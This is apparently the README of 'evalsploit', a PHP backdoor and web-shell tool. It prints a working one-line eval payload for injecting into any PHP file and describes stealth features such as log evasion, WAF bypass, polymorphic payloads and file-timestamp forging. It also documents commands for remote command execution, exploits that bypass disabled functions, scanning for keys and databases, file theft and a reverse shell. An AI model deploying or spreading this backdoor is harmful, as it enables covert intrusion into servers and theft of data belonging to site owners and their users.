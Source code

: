 # [evalsploit по-русски](README_RU.md)
# [evalsploit 中文版](README_CH.md) 

Okay, so, this text is for 2.6.0 #release.
New version works with generated parametrs, so use `gen` command first to get actual payload - workaround until 2.8.0 so be patient, please. Will do a sessions to fix. Thank you.
You can also mutate payload in infected php using `mutate` comand, but other infected urls will not work due to the mutated parametrs (will fix it soon, dont worry)

# evalsploit
Backdoor based on the `eval` function. Can be used as standalone web-shell

### Features

-   **Stealth**
    -   Works on POST requests, practically invisible to logs
    -   Built-in WAF bypass
    -   New user agent every new session
    -   Stealth operation setting
    -   Polymorphic payloads 

-   **Universal**
    -   Payload can be injected in any part of the php code
    -   Suitable for working with servers on Linux, Windows, Mac OS

# Manual

#### Getting started

1) Use the payload to infect PHP or as an independent shell:
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
3) When starting the program, evalsploit will require a link to the file with the payload
4) When changing the `send` module (see "program setup"), use the `gen` command to generate a new payload

#### Working with the file system

-   `ls`: list of files in the directory
	-   Setting `ls`: based on the DirectoryIterator function (stands by default)
	-   Setting `dir`: based on the ScanDir function

-   `cp`: copying files
    -   Use the separator ` : ` (/what.txt : /where/what.txt )

-   `cd`: moving through the file system

-	`mkd`: create a new directory

-	`upl`: upload a file to the server

-	`home`: back to \_\_DIR\_\_

-	`pwd`: print the active directory

#### Working with files

-   `cat`: print the file contents
    -   Setting `html`: based on the htmlentities function
	-   Setting `base64`: based on the base64_encode\base64_decode function (set as default)

-   `rm`: delete file

-   `dl`: download file (to the /download folder)
	-	Does not work well with files larger than 100 MB
	
-   `edit`: edit file contents
	-	Does not work well with files larger than 100 MB

-	`mkf`: create new file

-	`touch`: change file datestamp
	-	Use the ` settime ` separator (file.рhр settime Year-Month-Day Hour:Minute:Second)

-	`stat`: file information

-	`ren`: rename file
	-	Use the separator ` : ` (/where/old.txt : new.php )


#### Working with the evalsploit system

-   `run`: switch to command line mode
	-	`exit` to exit the mode
	-	Supports exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: server informtion
	-	php version, OS
	
-	`scan`: scanning the selected directory
	-	Search for system PHP, databases, keys etc
	
-	`exploit`: bypassing disabled command line with built-in exploits, activates the command line mode
	-	`exit` to exit the mode

-	`reverse`: reverse-shell - `reverse IP:PORT`
	
-	`gen`: generating a payload depending on the send module
	
-	`help`: home screen
	
-	`exit`: exit
	
	
	
#### Program Setup

-	`set`: configuring modules. To view the list of parameters use `set module help`
	-	Instead of `help` acceptable `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (Stealth)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (send mmodule)


### Thanks
Thanks to Zuo Yunfan for helping with the Chinese translation
